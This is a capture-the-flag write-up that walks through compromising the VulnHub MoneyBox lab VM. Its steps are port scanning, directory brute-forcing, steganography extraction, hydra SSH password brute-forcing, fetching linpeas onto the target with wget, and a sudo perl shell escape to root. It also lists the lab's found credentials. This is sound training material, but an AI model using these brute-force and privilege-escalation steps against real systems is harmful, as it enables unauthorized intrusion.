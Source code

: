 # Moneybox CTF Write-up

CTF link: 

[MoneyBox: 1](https://www.vulnhub.com/entry/moneybox-1,653/)

- We launched target machine and our kali and opened terminal as root.
- Check ifconfig and grab your ip address and start a scan.

> netdiscover -r xx.xx.xx.0/24
> 
- Pick the ip address and copy it.

We have to check ip for which ports runs which apps.

- First we check nmap

> nmap -sV -sC xx.x.x.x
> 

<p align="center"> <img src="assets/Untitled.png"> </p>

We see that our ip runs 3 ports: ftp, ssh,http.

We should check if there is a website and what we can find there. As usual page-source should be checked.

<p align="center"> <img src="assets/Untitled%201.png"> </p>

Also checked page-source, there is nothing there. So we should look for hidden directories.

> gobuster dir -u [http://192.168.1.6/](http://192.168.1.6/) -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
> 

<p align="center"> <img src="assets/Untitled%202.png"> </p>

Check this directories, don’t forget to check page-sources.

<p align="center"> <img src="assets/Untitled%203.png"> </p>

<p align="center"> <img src="assets/Untitled%204.png"> </p>

We check secret directory and its page-source given.

<p align="center"> <img src="assets/Untitled%205.png"> </p>

We found a secret key, probably a password. We had ftp and ssh port, we can try something. We should try to access ftp server as anonymous with no password first. Maybe we can find something.

<p align="center"> <img src="assets/Untitled%206.png"> </p>

We found a image file, and download it.

> get trytofind.jpg
> 

Maybe there is a hidden message in this image, because why not? We are trying everything.

> steghide extract -sf trytofind.jpg
> 

<p align="center"> <img src="assets/Untitled%207.png"> </p>

We entered found key “3xtr4ctd4t4” as passphrase and got a something. Check data.txt.

<p align="center"> <img src="assets/Untitled%208.png"> </p>

Password is weak and renu is the name. Let’s check ssh if we can find renu’s password with brute-force attack.

> hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.6
> 

<p align="center"> <img src="assets/Untitled%209.png"> </p>

We found renu’s password: “987654321”. Let’s enter ssh with these.

<p align="center"> <img src="assets/Untitled%2010.png"> </p>

We found the first flag. Look around.

<p align="center"> <img src="assets/Untitled%2011.png"> </p>

We found second flag. 

<p align="center"> <img src="assets/Untitled%2012.png"> </p>

We can not cd root, we have to be root. Other user lily maybe can, but password? We can look at linpeas. Download it to /tmp/ directory.

> wget [https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)
> 

<p align="center"> <img src="assets/Untitled%2013.png"> </p>

When we check all data we see that htere is authorized keys. Renu can login ssh as lily.

<p align="center"> <img src="assets/Untitled%2014.png"> </p>

> ssh lily@192.168.1.6
> 

<p align="center"> <img src="assets/Untitled%2015.png"> </p>

We login as lily and lily can run /usr/bin/perl as root. So we can get the shell with this. 

> Source: [https://gtfobins.github.io/gtfobins/perl/](https://gtfobins.github.io/gtfobins/perl/)
> 

> `sudo perl -e 'exec "/bin/sh";'`
> 

<p align="center"> <img src="assets/Untitled%2016.png"> </p>

Now we can cd root.

<p align="center"> <img src="assets/Untitled%2017.png"> </p>

All done.